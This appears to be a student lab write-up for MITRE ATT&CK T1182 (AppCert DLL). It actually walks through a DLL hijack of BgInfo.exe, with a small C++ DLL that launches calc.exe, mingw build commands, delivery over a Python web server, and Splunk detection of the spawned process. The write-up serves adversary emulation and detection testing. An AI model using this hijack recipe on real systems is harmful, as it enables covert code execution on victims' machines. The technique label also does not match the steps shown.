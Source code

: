 <h1>Technique Description</h1>
<h2>T1182 - AppCert DLL</h2>
<h2><a href="https://attack.mitre.org/techniques/T1182/">Description from ATT&CK</a></h2>
<blockquote>
 Dynamic-link libraries (DLLs) that are specified in the AppCertDLLs value in the Registry key HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager are loaded into every process that calls the ubiquitously used application programming interface (API) functions:
   * CreateProcess
  * CreateProcessAsUser
  * CreateProcessWithLoginW
  * CreateProcessWithTokenW
  * WinExec
</blockquote>

<h1>Assumption</h1>
Assume that the victim device is already compromised, and able to download files from a web server.

<h1>Execution</h1>

![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Finding%20the%20missing%20DLL%20name.png)
*Figure 1: Looking for missing DLL*

After finding the missing file we will be creating a simple DLL file that will open calc.exe

__Steps to create the DLL file:__
1. Create a C++ file with the follwoing code:
```c++
#include <windows.h>
int fireLazor(){
    WinExec("calc", 0);
    return 0;
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved){
    fireLazor();
    return 0;
}
```
2. Compiling it with mindw32 to make it as DLL file
```bash
i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
```
![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Creating%20Malicious%20DLL.png)
*Figure 2: Creating Malicious DLL*

Using python simple HTTP server, sending the malicious code to the victim.
![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Using%20simple%20HTTP%20Server%20to%20send%20the%20DLL%20file.png)
*Figure 3: Using simple HTTP Server to send the DLL file*



Copy the malicious DLL fie to the same directory that the program expecting the file to be and rename the DLL file to the exact name that program looking for.
![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Placing%20the%20Injected%20DLL%20with%20the%20same%20name%20as%20misisng%20DLL%20in%20the%20same%20path.png)
*Figure 5: Placing the file*

Everything is set it up correctly, and now start the BgInfo.exe, it should load our DLL
![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Injected%20DLL%20execution.png)
*Figure 6: BgInfo.exe loaded new DLL*
<h1>Detection</h1>
As from the above screenshot, we can see that when running the BgInfo.exe program, our DLL is loaded with it, and as it on the code, it started calc.exe
To confirm this, we can use Splunk to analyze.
![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/BGInfo-exe%20started%20with%20extra%20args.png)
*Figure 7: BgInfo.exe started with extra arguments/parameters*

![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Parent%20process%20Bginfo%20started%20calc-exe.png)
*Figure 8: Parent process Bginfo started calc.exe*
